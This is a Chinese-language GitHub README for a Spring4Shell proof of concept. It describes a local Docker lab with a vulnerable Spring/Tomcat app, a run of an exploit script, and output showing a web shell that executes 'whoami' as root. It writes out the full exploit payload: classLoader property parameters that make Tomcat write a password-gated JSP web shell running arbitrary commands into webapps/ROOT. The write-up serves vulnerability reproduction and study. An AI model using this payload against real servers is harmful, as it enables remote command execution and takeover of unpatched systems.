




# Spring4Shell-POC

Spring4Shell 漏洞本地复现过程

## 环境准备
* 环境 docker、docker-compose

* mvn 打包，生成 ``./target/ROOT.war``
```shell
mvn package
```
* 启动服务
```shell
docker-compose up -d
```

* 关闭服务
```shell
docker-compose down 
```

## 复现过程

* 运行脚本 
```shell
python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
```

* 第一次运行

  

* 第二次运行 


  

* 执行过程 


```
➜  spring4shell-poc clear             
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: 
➜  spring4shell-poc clear
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: root

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -

➜  spring4shell-poc 

``` 

* docker容易中可以看到在tomcat应用服务中创建了一个jsp文件




* web也可以直接访问




## 注意点

* spring-4-shell-exp.py 中data的数据
```text
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i 
if ("j".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while ((a = in .read(b)) != -1) {
        out.println(new String(b));
    }
}
%{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 


### 参考 

* https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities
* https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
* https://github.com/liudonghua123/spring-core-rce
